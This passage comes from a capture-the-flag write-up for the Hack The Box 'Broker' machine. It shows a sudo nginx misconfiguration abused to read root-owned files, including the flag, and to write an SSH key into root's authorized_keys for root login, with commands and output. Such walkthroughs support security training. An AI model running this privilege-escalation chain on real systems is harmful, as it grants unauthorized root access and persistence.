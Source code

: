 > - `autoindex` will enable directory listing
> - `dav_methods` will enable webdav
{: .prompt-tip }

```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo nginx -c /dev/shm/1.conf
```

#### File read

Now we can read files as root

```bash
┌──(bravosec㉿fsociety)-[~/htb/Broker]
└─$ curl -s broker.htb:7777|head
<html>
<head><title>Index of /</title></head>
<body>
<h1>Index of /</h1><hr><pre><a href="../">../</a>
<a href="bin/">bin/</a>                                               06-Nov-2023 01:10                   -
<a href="boot/">boot/</a>                                              06-Nov-2023 01:38                   -
<a href="dev/">dev/</a>                                               10-Nov-2023 06:00                   -
<a href="etc/">etc/</a>                                               07-Nov-2023 06:53                   -
<a href="home/">home/</a>                                              06-Nov-2023 01:18                   -
<a href="lib/">lib/</a>                                               06-Nov-2023 00:57                   -
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Broker]
└─$ curl -s broker.htb:7777/root/root.txt
f65b0e3bd6b1a2b2fa8dae1ce8b56bbc
```

#### File write

Write SSH keys

```bash
┌──(bravosec㉿fsociety)-[~/htb/Broker]
└─$ curl -s broker.htb:7777/root/.ssh/authorized_keys -T ~/.ssh/id_rsa.pub
```

SSH as root

```bash
┌──(bravosec㉿fsociety)-[~/htb/Broker]
└─$ cssh root@broker.htb
Warning: Permanently added 'broker.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov 10 07:15:37 AM UTC 2023

  System load:           0.0
  Usage of /:            71.0% of 4.63GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             159
  Users logged in:       0
  IPv4 address for eth0: 10.129.41.115
```